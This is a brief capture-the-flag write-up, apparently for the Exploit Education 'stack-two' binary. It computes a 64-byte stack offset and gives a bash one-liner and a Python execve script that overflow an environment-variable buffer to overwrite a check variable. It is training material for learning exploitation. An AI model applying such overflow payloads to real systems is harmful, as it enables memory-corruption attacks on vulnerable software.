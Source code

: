 We need to overflow from `rbp-0x50` (input buffer) to `rbp-0x10` (target `changeme`), just like previous challenges.

---

### Gotcha:

The input is not taken directly from `argv`, but from the env variable named `"ExploitEducation"`.

---

## Calculating the Offset

Same math:

```
0x50 - 0x10 = 0x40 = 64 bytes
```

Little endian again — we’ll write the target value in reverse byte order.

```bash
\x0a\x09\x0a\x0d  -->  0xd0a090a
```

---

## The Payload

You can do this two ways:

### Terminal One-Liner:

```bash
ExploitEducation=$(python3 -c 'print("A"*64 + "\x0a\x09\x0a\x0d")') ./stack-two
```

### Python Script (cleaner for automation):

```python
import os

env = os.environ.copy()
env["ExploitEducation"] = b"A"*64 + b"\x0a\x09\x0a\x0d"

binary = "./stack-two"
argv = [binary.encode()]

os.execve(binary, argv, env)
```

---

## Result
